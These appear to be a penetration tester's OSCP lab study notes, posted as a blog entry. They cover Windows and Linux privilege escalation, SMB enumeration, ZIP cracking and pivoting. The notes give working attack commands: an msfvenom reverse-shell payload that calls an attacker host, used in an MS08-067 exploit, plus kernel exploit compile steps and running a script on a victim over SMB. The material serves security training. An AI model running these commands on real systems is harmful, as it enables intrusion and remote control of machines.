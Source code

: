 ```yaml
---
layout: post
title:  "OSCP Notes"
categories: OSCP
---
```


Collection of notes I took while doing the OSCP labs.

# Windows

## Post Exploitation and Privilege Escalation

* Helpful collection of priv esc methods: <https://guif.re/windowseop>

* File transfer methods: <https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/>

* Tools
    * [Powerless](https://github.com/M4ximuss/Powerless) (Privilege Escalation script working without Powershell)
    * [Windows Priv Esc Checker](https://github.com/pentestmonkey/windows-privesc-check)
    * [Windows Exploit Suggester NG](https://github.com/bitsadmin/wesng) (feed it `systeminfo` output and it finds matching exploits)
    * [BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows)
    * [Pre-Compiled Windows Exploits](https://github.com/SecWiki/windows-kernel-exploits)
    * [Download and compile exploits automatically](https://github.com/wwong99/pentest-notes/blob/master/scripts/xploit_installer.py)
    * [Exploit Table](https://malrawr.com/04.windows/exploit-table/)

* From Admin to System on <= Windows XP:
    * check time with `time`
    * run `at 01:23 /interactive cmd.exe` one minute after what `time` said -> cmd.exe will popup (obviously you will need a RDP connection for this to work)

## Buffer Overflow

* Nice tutorial: <https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/>

* Important:
    * run all apps as administrator (also Immunity Debugger)
    * use Python2 for exploit development

* Steps
    * TODO

## Exploits

* MS08-067:
    * grab exploit from <https://github.com/andyacer/ms08_067>
    * generate shellcode with `msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows` and replace the one in the script with it
    * run it `python ms08_067_2018.py 10.11.1.x 1 445`

* MS11-046 (afd.sys):
    * grab exploit from <https://www.exploit-db.com/raw/40564>
    * compile with `i686-w64-mingw32-gcc 40564.c -o expl.exe -lws2_32`

# Linux

## Post Exploitation and Privilege Escalation

* Tools
    * [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

## MySQL
* Command line usage: `mysql -u root -p`
    * display available databases and tables `show databases;` or `show tables;`
    * use database `use <database>;`

## Exploits

* CVE-2009-2692, Linux Kernel 2.4.x/2.6.x sock_sendpage():
    * grab from <https://www.exploit-db.com/raw/9545>
    * compile with `gcc -m32 -Wl,--hash-style=both 9545.c -o 9545`

# Other

## General

* [AutoRecon](https://github.com/Tib3rius/AutoRecon): Super useful enumeration tool which takes away a lot of manual enumeration work. Just invoke it with e.g. `python3 autorecon.py <ip1> <ip2> -o <outputdir>` and let it run in the background.

## Cracking

* Crack a password protected ZIP file: `fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' protected.zip`

## SMB

* Nice SMB tips: <https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html>

* Execute directly via SMB (helpful if you can't write anything to disk):
    * setup an SMB server on your Kali box: `python /usr/share/doc/python-impacket/examples/smbserver.py SHARE .`
    * run `\\10.11.0.x\SHARE\Powerless.bat` on victim

* Important:
    * Never completely trust `enum4linux` since it misses a lot of stuff (version for example). Use this little bash script to grab the SMB version:

    ```bash
    #!/bin/sh 
    #Author: rewardone 
    #Description: 
    # Requires root or enough permissions to use tcpdump 
    # Will listen for the first 7 packets of a null login 
    # and grab the SMB Version 
    #Notes: 
    # Will sometimes not capture or will print multiple 
    # lines. May need to run a second time for success. 

    if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi 

    if [ ! -z $2 ]; then rport=$2; else rport=139; fi 

    tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " & 

    echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null 

    echo "" && sleep .1 
    ```

    * Alternatives to enum4linux: smbmap, nullinux, NSE scripts (invoke with `nmap -sV -p 139,445 --script='smb-vuln*' --script-args="unsafe=1" <IP address>`)

## Pivoting

* Collection of pivoting methods: <https://sushant747.gitbooks.io/total-oscp-guide/port_forwarding_and_tunneling.html>

* sshuttle usage: `sshuttle -r user@10.11.1.x 10.1.1.0/24`
* alternative: dynamic port forwarding with ssh `ssh -D 9050 user@10.11.1.x`, then use proxychains `proxychains nmap -v --top-ports=20 -sT -Pn 10.1.1.x`